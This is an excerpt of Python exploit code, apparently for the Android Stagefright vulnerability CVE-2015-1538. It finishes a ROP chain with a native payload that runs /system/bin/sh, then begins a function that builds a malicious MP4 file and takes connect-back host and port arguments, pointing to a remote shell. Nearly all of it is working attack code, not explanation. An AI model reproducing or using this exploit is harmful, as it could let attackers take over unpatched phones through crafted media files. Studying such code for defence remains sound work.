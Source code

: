     # shell -
    buf += '/system/bin/sh\x00\x00'
    # argv -
    buf += 'sh\x00\x00'
    # env -
    buf += 'PATH=/sbin:/vendor/bin:/system/sbin:/system/bin:/system/xbin\x00'

    # Add some identifiable stuff, just in case something goes awry...
    rop_start_off = 0x34
    x = rop_start_off + len(rop)
    while len(rop) < 0x80 - rop_start_off:
        rop += struct.pack('<L', 0xf0f00000+x)
        x += 4

    # Add the native payload...
    rop += buf

    return rop

#
# Build an mp4 that exploits CVE-2015-1538 #1
#
# We mimic meow.3gp here...
#
def create_mp4(sp_addr, newpc_val, cb_host, cb_port):
    chunks = []

    # Build the MP4 header...
    ftyp =  'mp42'
    ftyp += struct.pack('>L', 0)
    ftyp += 'mp42'
    ftyp += 'isom'
    chunks.append(make_chunk('ftyp', ftyp))

    # Note, this causes a few allocations...
    moov_data = ''
    moov_data += make_chunk('mvhd',
        struct.pack('>LL', 0, 0x41414141) +
        ('B' * 0x5c) )
